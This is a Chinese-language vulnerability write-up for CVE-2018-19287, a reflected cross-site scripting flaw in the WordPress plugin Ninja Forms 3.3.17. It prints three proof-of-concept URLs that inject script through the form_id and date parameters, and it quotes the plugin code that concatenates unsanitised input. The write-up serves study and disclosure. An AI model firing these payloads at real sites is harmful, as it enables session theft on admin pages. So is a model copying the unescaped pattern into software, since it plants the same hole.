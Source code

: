（CVE-2018-19287）WordPress Plugin - Ninja Forms 3.3.17 XSS
===========================================================

一、漏洞简介
------------

Ninja
Forms是WordPress的终极免费表单创建工具。使用简单但功能强大的拖放式表单创建器在几分钟内构建表单。对于初学者，可以快速轻松地设计复杂的表单，绝对没有代码。对于开发人员，利用内置的钩子，过滤器，甚至自定义字段模板，使用Ninja
Forms作为框架，在表单构建或提交的任何步骤中执行您需要的任何操作。

二、漏洞影响
------------

三、复现过程
------------

下面是我从exploit-db上复制的POC，为了方便判断，修改了弹窗的内容。

    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date&end_date="><img+src=mtk+onerror=alert(/POC1/);//&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?s&post_status=all&post_type=nf_sub&action=-1&form_id=1&nf_form_filter&begin_date="><img+src=mtk+onerror=alert(/POC2/);//&end_date&filter_action=Filter&paged=1&action2=-1
    http://0-sec.org/wp-admin/edit.php?post_status=trash&post_type=nf_sub&form_id=1"><script>alert(/POC3/);</script>&nf_form_filter&paged=1

我们只要直接复制POC到浏览器的地址栏回车即可触发漏洞。

下图是触发第一个POC的图：

![](./.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId24.png)

下图是触发第二个POC的图：

![](./.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId25.png)

下图是触发第三个POC的图：

![](./.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId26.png)

### 漏洞分析过程

笔者直接从POC方面入手，简单分析一下漏洞的成因。由于方法是一样的，笔者是一个懒人，这里就只分析了POC3的成因。

通过POC查找关键词nf\_sub，确定了核心文件\\wp-content\\plugins\\ninja-forms\\includes\\Admin\\Menus\\Submissions.php。

下图是Submissions.php部分内容：

![](./.resource/(CVE-2018-19287)WordPressPlugin-NinjaForms3.3.17XSS/media/rId28.png)

通过粗略的阅读，发现这个函数是导致POC3成功弹窗的关键。

下图是Submissions.php文件第71-104行内容：

    public function change_views( $views )

    {

        // Remove our unused views.

        unset( $views[ 'mine' ] );

        unset( $views[ 'publish' ] );

        // If the Form ID is not empty...

        if( ! empty( $_GET[ 'form_id' ] ) ) {

            // ...populate the rest of the query string.

            $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

        } else {

            // ...otherwise send in an empty string.

            $form_id = '';

        }

        // Build our new views.

        $views[ 'all' ] = '<a href="' . admin_url( 'edit.php?post_status=all&post_type=nf_sub'  ) . $form_id . '">'

                        . __( 'Completed', 'ninja-forms' ) . '</a>';

        $views[ 'trash' ] = '<a href="' . admin_url( 'edit.php?post_status=trash&post_type=nf_sub' ) . $form_id . '">'

                            . __( 'Trashed', 'ninja-forms' ) . '</a>';

        // Checks to make sure we have a post status.

        if( ! empty( $_GET[ 'post_status' ] ) ) {

            // Depending on the domain set the value to plain text.

            if ( 'all' == $_GET[ 'post_status' ] ) {

                $views[ 'all' ] = __( 'Completed', 'ninja-forms' );

            } else if ( 'trash' == $_GET[ 'post_status' ] ) {

                $views[ 'trash' ] = __( 'Trashed', 'ninja-forms' );

            }

        }

        return $views;

    }

从上面代码，我们可以看到，form\_id并没有被过滤，导致XSS存在。

    $form_id = '&form_id=' . $_GET[ 'form_id' ] . '&nf_form_filter&paged=1';

四、参考链接
------------

> <https://www.exploit-db.com/exploits/45880/>
>
> <https://www.freebuf.com/vuls/190411.html>
